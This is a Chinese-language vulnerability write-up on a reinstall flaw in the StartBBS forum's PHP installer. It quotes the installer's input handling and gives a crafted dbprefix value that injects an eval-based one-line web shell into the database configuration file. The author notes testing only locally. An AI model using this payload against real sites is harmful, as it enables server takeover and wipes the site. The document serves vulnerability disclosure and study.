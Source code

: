 ```php
                    $data['msg5']="安装 startbbs 成功！";

        }

        $this->load->view('install',$data);

    } 
```

　　当 step 函数的参数为 3 时，就执行安装函数 _install_do()，这个函数里初始化了数据库，并把数据库配置文件写入了“/app/config/database.php”。于是，我们可以构造一下数据包直接把一句话写入到这个配置文件里。

　　我们看到，这个函数接收了许多 post 数据：

　　$dbhost = $this->input->post('dbhost');

　　$dbport = $this->input->post('dbport');

　　$dbname = $this->input->post('dbname');

　　$dbuser = $this->input->post('dbuser');

　　$dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';

　　$dbprefix = $this->input->post('dbprefix');

　　$userid = $this->input->post('admin');

　　$pwd = md5($this->input->post('pwd'));

　　$email = $this->input->post('email');

　　$sub_folder = '/'.$this->input->post('base_url').'/';

　　其中 dbhost、dbport、dbname、dbuser、dbpwd 都不能随便乱写，乱写的话安装就会出错，而 userid、pwd、email、sub_folder 都是写入数据库的，不写入配置文件。所以就剩下 dbprefix 了，所以我们可以这样构造这个字段：

　　dbprefix=sb_';@eval ($_POST[101]);$xxx='

## 漏洞证明

因为这个重安装漏洞破坏性太大，getshell 以后网站等于重置了，所以我没有在网上测试。测试都在本地进行~

首先在外面找一个可以外连的 mysql 账号，为的是让安装成功进行。

我这里在我 vps 上新建了一个账号 test_db_user，然后构造下面的这个数据包，发送：

![](img/0616061141961e6606980141f0b96f383f37b678.jpg)
